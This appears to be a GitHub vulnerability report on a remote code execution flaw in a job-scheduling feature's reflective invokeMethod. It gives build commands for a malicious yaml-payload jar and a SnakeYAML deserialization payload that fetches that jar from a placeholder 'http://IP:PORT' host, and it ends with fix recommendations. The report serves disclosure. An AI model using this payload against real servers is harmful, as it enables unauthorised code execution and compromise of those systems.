



## Remote Code Execution

### 1.  Steps to reproduce

Using the project `https://github.com/artsploit/yaml-payload`, modify `AwesomeScriptEngineFactory.java` as follows



Building and package, move`yaml-payload.jar` into the root directory of the web service

```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

A new scheduled task is created as follows



`调用方法` field is `org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://IP:PORT/yaml-payload.jar"]]]]')`

Execute this task after submission to remotely execute arbitrarily code


### 2. Expected behavior

The `com.aurora.util.JobInvokeUtil#invokeMethod` method is used to reflectively execute the specified method of the given class



### 3. Actual behavior

However, there is no filtering of incoming class names and method names in this method, resulting in dangerous class names and method names being passed in and executed

#### 4. Affected Version

latest

### 5. Fixes Recommendations

1. Filter dangerous class names
2. Filter unnecessary protocols such as http, rmi, etc.